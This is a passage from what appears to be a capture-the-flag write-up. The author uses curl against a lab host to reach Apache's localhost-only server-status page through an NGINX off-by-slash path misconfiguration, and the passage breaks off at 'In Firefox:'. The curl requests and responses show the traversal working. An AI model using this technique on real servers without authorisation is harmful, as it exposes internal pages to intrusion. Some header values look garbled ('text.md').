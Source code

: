 Thinking about what else might be being served by Apache, I tried
looking for `server-status`. This is typically only accessible from
localhost, but given the NGINX proxy, the request will be coming from
localhost. Trying to hit the page directly doesn't work (it would have
been found by `feroxbuster`):



    oxdf@parrot$ curl -I http://10.10.10.249/server-status
    HTTP/1.1 404 Not Found
    Server: nginx/1.14.2
    Date: Tue, 30 Nov 2021 22:22:40 GMT
    Content-Type: text.md; charset=iso-8859-1
    Connection: keep-alive
    Vary: Accept-Encoding



If I try to request the page with a `/../`, it doesn't work:



    oxdf@parrot$ curl -I http://10.10.10.249/admin/../server-status
    HTTP/1.1 404 Not Found
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:21:02 GMT
    Content-Type: text.md; charset=iso-8859-1
    Connection: keep-alive
    Vary: Accept-Encoding



But using the off by slash, it does:



    oxdf@parrot$ curl -I http://10.10.10.249/admin../server-status
    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:21:18 GMT
    Content-Type: text.md; charset=ISO-8859-1
    Content-Length: 6242
    Connection: keep-alive
    Vary: Accept-Encoding
    Vary: Accept-Encoding



In Firefox:
